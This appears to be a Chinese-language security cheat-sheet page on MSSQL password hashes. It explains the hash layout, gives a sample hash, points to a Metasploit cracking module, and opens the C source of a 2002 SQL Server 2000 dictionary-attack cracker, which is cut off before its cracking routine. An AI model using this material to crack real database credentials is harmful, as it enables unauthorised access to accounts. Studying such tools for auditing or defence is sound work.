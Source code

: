 ### 密码散列

从 0x0100 密码开始，0x 后的第一个字节是一个常数,接下来的八个字节是哈希盐,剩下的 80 个字节是两个散列，第一 40 个字节是区分大小写的密码哈希值，而第二个 40 字节为大写形式密码哈希值。

```
0x0100236A261CE12AB57BA22A7F44CE3B780E52098378B65852892EEE91C0784B911D76BF4EB124550ACABDFD1457 
```

### 密码破解

可以利用 Metasploit 的 JTR 模块进行破解

[`www.rapid7.com/db/modules/auxiliary/analyze/jtr_mssql_fast`](http://www.rapid7.com/db/modules/auxiliary/analyze/jtr_mssql_fast)

### MSSQL 2000 密码破解

（此工具用于破解微软的 SQL Server 2000 的密码。）

```
/////////////////////////////////////////////////////////////////////////////////
//
//           SQLCrackCl
//
//           This will perform a dictionary attack against the
//           upper-cased hash for a password. Once this
//           has been discovered try all case variant to work
//           out the case sensitive password.
//
//           This code was written by David Litchfield to
//           demonstrate how Microsoft SQL Server 2000
//           passwords can be attacked. This can be
//           optimized considerably by not using the CryptoAPI.
//
//           (Compile with VC++ and link with advapi32.lib
//           Ensure the Platform SDK has been installed, too!)
//
//////////////////////////////////////////////////////////////////////////////////
#include <stdio.h>
#include <windows.h>
#include <wincrypt.h>
FILE *fd=NULL;
char *lerr = "\nLength Error!\n";
int wd=0;
int OpenPasswordFile(char *pwdfile);
int CrackPassword(char *hash);
int main(int argc, char *argv[])
{
             int err = 0;
        if(argc !=3)
                  {
                            printf("\n\n*** SQLCrack *** \n\n");
                            printf("C:\\>%s hash passwd-file\n\n",argv[0]);
                            printf("David Litchfield (david@ngssoftware.com)\n");
                            printf("24th June 2002\n");
                            return 0;
                  }
        err = OpenPasswordFile(argv[2]);
        if(err !=0)
         {
           return printf("\nThere was an error opening the password file %s\n",argv[2]);
         }
        err = CrackPassword(argv[1]);
        fclose(fd);
        printf("\n\n%d",wd);
```